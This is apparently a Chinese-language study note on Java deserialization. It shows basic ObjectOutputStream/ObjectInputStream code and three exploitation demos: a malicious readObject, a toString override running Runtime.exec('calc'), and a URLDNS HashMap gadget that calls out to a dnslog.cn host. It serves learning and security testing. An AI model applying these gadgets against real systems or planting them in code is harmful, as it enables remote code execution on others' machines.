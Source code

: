 序列化：将内存中的对象压缩为字节流

反序列化：将字节流转化为内存中的对象

## 序列化

`UserDemo.class`

```java
public class UserDemo implements Serializable {
    public String name = "姚文达";
    public int age = 18;
    public String gender = "男";

    public UserDemo(String name, String gender, Integer age){
        this.name = name;
        this.gender = gender;
        this.age = age;
        System.out.println("UserDemo在输出：" + "name:" + name + " gender:" + gender + " age:" + age);
    }


    @Override
    public String toString() {
        return "UserDemo{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", gender='" + gender + '\'' +
                '}';
    }
}
```

`SerialDemo.class`

```java
public class SerialDemo {
    public static void main(String[] args) throws IOException {
        UserDemo u = new UserDemo("xiaoming","boy", 18);
        //调用方法
        SerialTest(u);
    }

    public static void SerialTest(Object obj) throws IOException {
        //FileOutputStream() 输出文件
        //将对象obj序列化后输出到文件test.txt中
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(obj);
        //test.txt就是对象u序列化的数据
    }
}

```

简单的解释：

创建一个`FileOutputStream`，用于向“test.txt”写入数据，然后使用`ObjectOutputStream`包装这个文件输出流，使得我们能够写入对象而不是简单的字节。`ObjectOutputStream` 只能用于写入实现了 `Serializable` 接口的对象。

`oos.writeObject(obj);`将传入的对象序列化，写入到test.txt文件，这个对象必须实现 `Serializable` 接口

![image-20250619190429750](assets/image-20250619190429750.png)

## 反序列化

```java
public class UnserialDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 调用下面的方法，传输test.txt
        Object obj = UnserialTest("test.txt");
        System.out.println(obj);
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }

}
```

输出：

```
UserDemo{name='xiaoming', age=18, gender='boy'}
```



## 反序列化利用

#### 1、入口类的readObject直接调用危险方法

上面的这段代码：

```java
 public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
```

这里的readObject是jdk1.8里面的



我们在UserDemo中定义：

```java
//Java 中只有在类中定义了自定义的readObject(ObjectInputStream)方法且该方法是private的情况下，反序列化时才会自动调用它。
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();//保证它指向正确的那个jdk中带的那个readObject，保证正常功能
        Runtime.getRuntime().exec("calc");
    }
```

然后把UserDemo.class序列化

之后再反序列化，弹出计算器

由于java的序列化机制允许类自定义其序列化与反序列化的行为，所以在进行反序列化操作时，Java 的 ObjectInputStream 类会自动调用这个自定义的 `readObject` 方法



但是如果UserDemo.class中没有写这个方法，怎么办？



#### 2、构造函数/静态代码块等类加载时隐式执行

把UserDemo.class中的toString()方法改成这样：

```java
@Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        
        return "UserDemo{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", gender='" + gender + '\'' +
                '}';
    }
```

UnserialDemo.class还是原来的：

```java
public class UnserialDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 调用下面的方法，传输test.txt
        Object obj = UnserialTest("test.txt");
        //对 对象 进行输出，默认调用toString方法
        System.out.println(obj);
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }

}
```

反序列化一执行，就会弹计算器

原因：对 对象 进行输出，默认调用toString方法

#### 3、入口参数中包含可控类，该类有危险方法，readObject时调用

```java
public class UrlDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        //正常代码中，创建一个HashMap对象，将URL对象u作为key，1作为value

        //用到原生态的readObject去反序列化数据
        //readObject()本来在ObjectInputStream类中
        //HashMap中也有readObject方法
        //反序列化readObject方法调用HashMap里面的readObject方法
        //HashMap里面的readObject方法有一个执行流程，最后会触发访问DNS请求，如果这里是命令执行的话 就是RCE
        
        HashMap<URL, Integer> hash= new HashMap<>();
        URL u = new URL("http://ror8b0.dnslog.cn");
        hash.put(u, 1);
        SerialTest(hash);//产生dns.txt
        UnserialTest("dns.txt");
    }

    public static void SerialTest(Object obj) throws IOException {
        //FileOutputStream() 输出文件
        //将对象obj序列化后输出到文件test.txt中
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        oos.writeObject(obj);
        //test.txt就是对象u序列化的数据
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
}
```



如果用的是FastJson、Jackson等，上面的方法就没用了，上面是原生态的
